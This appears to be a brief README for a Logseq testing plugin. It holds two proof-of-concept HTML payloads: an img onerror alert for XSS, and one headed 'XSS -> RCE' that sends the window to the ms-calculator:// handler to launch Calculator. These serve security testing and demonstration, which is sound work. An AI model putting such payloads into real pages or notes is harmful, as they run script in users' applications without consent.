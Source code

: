 # Logseq-Testing
---

Hello there Logseq!

---
## XSS

<img src=x onerror="alert('XSS')">

---
## XSS -> RCE

<img src=x onerror="window.location='ms-calculator://'">

---

This Logseq plugin is for testing/demonstration purposes. 
